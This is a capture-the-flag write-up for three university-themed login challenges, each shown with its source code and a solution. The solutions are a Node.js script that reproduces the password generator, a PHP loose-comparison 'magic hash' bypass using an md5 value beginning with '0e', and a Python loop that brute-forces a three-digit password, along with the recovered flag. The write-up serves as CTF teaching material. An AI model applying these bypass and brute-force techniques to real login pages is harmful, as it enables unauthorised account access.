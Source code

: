 #  Login Sec
tags: web

## Description

>The university's department of Secure Login Systems has just launched three prototypes of their research projects.<br>
Maybe you can have a look at all three of them:

3 login pages are provided, with the respective code running them.

## Solution

### Login 1

#### Code

```javascript
var http = require('http');
const crypto = require('crypto');
var url = require('url');
var fs = require('fs');

var _0x86d1=["\x68\x65\x78","\x72\x61\x6E\x64\x6F\x6D\x42\x79\x74\x65\x73"];

function generatePart1() {
    return
         {
             x: crypto[_0x86d1[1]](8)

         }[x].toString(_0x86d1[0]);
}
function generatePart2() {
    return [+!+[]]+[!+[]+!+[]+!+[]]+[!+[]+!+[]+!+[]]+[!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]];
}

http.createServer(function (req, res) {
    res.writeHead(200, {'Content-Type': 'text/html'});
    passwd = generatePart1() + generatePart2();
    var url_content = url.parse(req.url, true);

    if (passwd == url_content.query.passwd) {
       res.write(fs.readFileSync('flag.txt', 'utf8'));
    } else {
        res.write('<html><body><form method="get"><input type="text" name="passwd" value="password"><input type="submit" value="login" /></form></body></html>');
    }
    res.end();
}).listen(8888);
```

#### Solution

Since we have the source code that generates the password we can simply execute it without the http server. I also included *request* to automatically retrieve the flag sending the password to the login page:

```javascript
var request = require("request");
const crypto = require('crypto');

var _0x86d1=["\x68\x65\x78","\x72\x61\x6E\x64\x6F\x6D\x42\x79\x74\x65\x73"];

function generatePart1() {
    return
         {
             x: crypto[_0x86d1[1]](8)

         }[x].toString(_0x86d1[0]);
}
function generatePart2() {
    return [+!+[]]+[!+[]+!+[]+!+[]]+[!+[]+!+[]+!+[]]+[!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]];
}

passwd = generatePart1() + generatePart2();

var baseurl = "http://login1.uni.hctf.fun/?passwd=";
request(baseurl + passwd, function(error, response, result) {
  console.log(result);
});
```

It prints the following result: `flag{W0w_1_gu3ss_th1s`


### Login 2

#### Code

```php
<?php
include("flag.php");
if (isset($_GET['passwd'])) {
        if (hash("md5", $_GET['passwd']) == '0e514198428367523082236389979035')        {
                echo $flag;
        }
} else {
    echo '<html><body><form method="get"><input type="text" name="passwd" value="password"><input type="submit" value="login" /></form></body></html>';
}
?>
```

#### Solution

The task ask us to find a string which md5 hash is equal to `0e514198428367523082236389979035`. Searching the hash online didn't provide any result.

We need to find another path. After looking better at the code I found a weakness that we can probably exploit: The comparison in the if condition is done with `==` instead of `===`. This mean that the comparison returns true also if both strings are scientific number, so I just need to find a string which hash is like: "`0e` + some digits".
A better explanation of this attack is provided in [this writeup](https://github.com/bl4de/ctf/blob/master/2017/HackDatKiwi_CTF_2017/md5games1/md5games1.md) we found. The writeup also provide the string we need: `0e215962017`. The string was found just with bruteforce, if you are interested in the script check out the writeup.

If we insert the string in the login page it prints: `_t0_be_4_pr3tty_`.


### Login 3

#### Code

```python
from flask import Flask, request, send_from_directory

app = Flask(__name__)

passwd = open("/opt/passwd.txt").read()
flag = open("/opt/flag.txt").read()


@app.route('/')
def index():
    userpw = request.args.get("passwd", "")
    if userpw == passwd:
        return flag, 200, {"Content-Type": "text/plain"}
    else:
        return '<html><body><form method="get"><input type="text" name="passwd" value="password"><input type="submit" value="login" /></form></body></html>'


if __name__ == '__main__':
    assert(len(passwd) == 3)
    assert(passwd.isdigit())
    app.run()
```

#### Solution

The password is just 3 digit because of the two following asserts:
```python
  assert(len(passwd) == 3)
  assert(passwd.isdigit())
```

so there are only 1000 possible passwords, from *000* to *999*, so just bruteforce it!

```python
import urllib2

baseurl = "http://login3.uni.hctf.fun/?passwd="
for number in range(0, 999):
    pwd = "0"*(3-len(str(number))) + str(number)
    content = urllib2.urlopen(baseurl + pwd).read()
    if content.find("<input type") == -1:
        print content
        break
```

The script outputs: `4_d4mn_l0ng_fl4g}` (using the password `007`).

Finally combining the three partial flags gives the complete flag: `flag{W0w_1_gu3ss_th1s_t0_be_4_pr3tty_4_d4mn_l0ng_fl4g}`

Completed!
